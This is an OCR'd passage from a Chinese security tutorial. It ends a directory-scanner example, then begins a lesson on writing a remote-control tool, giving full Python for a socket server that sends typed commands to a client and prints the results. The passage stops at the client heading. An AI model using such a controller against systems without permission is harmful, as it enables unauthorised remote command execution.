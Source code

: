 ```python
    file = open(path + "/" + txt)
    for dir in file:
        q.put(dir)
        for i in range(int(thread)):
            t = threading.Thread(target=scan)
            t.start()
```

### 5. 远控编写

#### (1). 前提准备

1. Socket网络编程知识
2. 异常处理

#### (2). 编写思路

* 编写服务端，发送指令、接受信息 => 编写客户端，接受指令，发送信息 => 启动客户端、服务端

#### (3). 实例

##### a. 服务端

```python
import socket

#设置监听ip、端口
host = '0.0.0.0'
port = 1234

#开启socket连接
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.bind((host,port))
s.listen(1)
conn, addr = s.accept()
print(f"已连接: {addr}")

#发送执行命令，并接受返回结果
try:
    while True:
        cmd = input('请输出你要执行的命令：').encode('utf-8')
        conn.send(cmd)
        data = conn.recv(1024)
        handleData = data.decode('utf-8',errors='ignore')
        print('返回的结果是：' + handleData)
except Exception as e:
    print(e)
finally:
    s.close()
```

##### b. 客户端
